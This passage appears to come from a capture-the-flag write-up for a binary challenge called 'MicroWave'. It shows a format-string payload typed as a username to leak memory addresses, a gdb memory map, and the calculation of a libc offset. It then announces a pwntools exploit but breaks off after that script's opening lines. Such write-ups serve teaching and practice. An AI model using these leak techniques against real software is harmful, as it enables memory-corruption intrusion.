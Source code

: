            [MicroWave]: 1

           Log in on Twitter:
           username: %p.%p.%p.%p.%p
           password: n07_7h3_fl46

Checking 0xa.0x7ffff7b02870.0x7ffff7ff3740.0x555555556ac0.(nil)
Twitter account
............
           ----------------------------------
           |  1. Connect to Twitter account |
           |  2. Edit your tweet            |
           |  3. Grill &amp; Tweet your food    |
           |  q. Exit                       |
           ----------------------------------

           [MicroWave]: ^C
Program received signal SIGINT, Interrupt.
Stopped reason: SIGINT
0x00007ffff7b02810 in read () from ./libc.so.6
gdb-peda$ vmmap
Start              End                Perm  Name
0x0000555555554000 0x0000555555557000 r-xp  /tmp/microwave_61f50dba931bb10ab3089215b2e188f4
0x0000555555757000 0x0000555555758000 r--p  /tmp/microwave_61f50dba931bb10ab3089215b2e188f4
0x0000555555758000 0x0000555555759000 rw-p  /tmp/microwave_61f50dba931bb10ab3089215b2e188f4
0x0000555555759000 0x000055555577a000 rw-p  [heap]
0x00007ffff7a17000 0x00007ffff7bd2000 r-xp  /tmp/libc.so.6
0x00007ffff7bd2000 0x00007ffff7dd1000 ---p  /tmp/libc.so.6
0x00007ffff7dd1000 0x00007ffff7dd5000 r--p  /tmp/libc.so.6
0x00007ffff7dd5000 0x00007ffff7dd7000 rw-p  /tmp/libc.so.6
0x00007ffff7dd7000 0x00007ffff7ddc000 rw-p  mapped
0x00007ffff7ddc000 0x00007ffff7dfc000 r-xp  /lib/x86_64-linux-gnu/ld-2.19.so
0x00007ffff7ff2000 0x00007ffff7ff8000 rw-p  mapped
0x00007ffff7ff8000 0x00007ffff7ffa000 r-xp  [vdso]
0x00007ffff7ffa000 0x00007ffff7ffc000 r--p  [vvar]
0x00007ffff7ffc000 0x00007ffff7ffd000 r--p  /lib/x86_64-linux-gnu/ld-2.19.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rw-p  /lib/x86_64-linux-gnu/ld-2.19.so
0x00007ffff7ffe000 0x00007ffff7fff000 rw-p  mapped
0x00007ffffffde000 0x00007ffffffff000 rw-p  [stack]
0xffffffffff600000 0xffffffffff601000 r-xp  [vsyscall]</code></pre>
The offset is thus <code>hex(0x7ffff7b02870 - 0x00007ffff7a17000) = 0xeb870</code>

Now you can construct the exploit using <a href="https://github.com/Gallopsled/pwntools">pwntools</a>:

Exploit:
<pre><code>:::Python
#!/usr/bin/env python2
# author: deadc0de6
